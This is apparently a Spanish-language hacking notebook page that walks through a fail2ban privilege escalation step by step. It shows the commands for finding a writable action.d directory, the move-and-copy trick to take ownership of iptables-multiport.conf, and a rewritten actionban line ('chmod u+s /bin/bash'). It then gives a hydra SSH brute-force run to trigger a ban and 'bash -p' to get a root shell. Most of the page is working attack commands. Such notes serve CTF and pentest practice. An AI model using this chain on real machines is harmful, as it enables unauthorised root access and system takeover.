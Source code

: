 ```yaml
---
icon: ban
---
```


# File2ban Privilege Escalation

URL = https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49

o

URL = https://hackmd.io/@tahaafarooq/privilege-escalation-fail2ban

Se puede hacer de las 2 manera como proporcione en las 2 `URL's` por lo que se podria hacer lo siguiente...

```shell
id
```

Si con esto vemos que estamos en el grupo llamado `Security` y al hacer `sudo -l` podemos ejecutar como `root` el siguiente comando...

```
(root) NOPASSWD: /etc/init.d/fail2ban restart
```

Lo que podremos es reiniciar el servicio de `fail2ban` que su funcion es que cuando detecta que se esta utilizando multiples intentos de `login` o fuerza bruta te banean y en la linea de la configuracion del programa cuando pasa eso hay un comando en concreto estipulado para cuando pasa eso que es el cual cambiaremos para aprovecharlo...

```shell
find /etc -writable -ls 2>/dev/null
```

Haciendo eso veremos que podemos escribir y editar cosas dentro del siguiente directorio...

```
drwxrwx---   2 root    security    /etc/fail2ban/action.d
```

Dentro de este directorio se encuentra un archivo llamado `iptables-multiport.conf` que es el que controla cuando se banea a una persona que comando se ejecuta, por lo que lo editaremos de la siguiente manera...

```shell
mv /etc/fail2ban/action.d/iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.bak
```

```shell
cp /etc/fail2ban/action.d/iptables-multiport.bak /etc/fail2ban/action.d/iptables-multiport.conf
```

Y con esto podremos editarlo ya que anteriormente esta con permisos de `root` y no nos dejaba editarlo hacemos este `Bypass` moviendolo con otra extension, por lo que ya estara en nuestro grupo y podremos editarlo, despues lo copiamos para que se quede como estaba asi pudiendo editarlo y que lo detecte el programa cuando se ejecute...

```shell
nano /etc/fail2ban/action.d/iptables-multiport.conf

#Dentro del nano donde pone 'actionban = ' y el contendio del comando, lo cambiaremos por una inyeccion de coidigo malicioso que nos permita ser root
actionban = chmod u+s /bin/bash

^X
<Y or S>
<ENTER>
```

Con esto los cambios se habrian guardado y con esto hacemos que cuando nos baneen se ejecute ese `chmod`, por lo que haremos lo siguiente...

```shell
hydra -l <USERNAME> -P <WORDLIST> ssh://<IP>/ -t 64
```

Echo esto nos banearan y ya tendremos el comando ejecutado volviendo a la maquina victima...

Por lo que haremos...

```shell
bash -p
```

Y ya seriamos `root`...
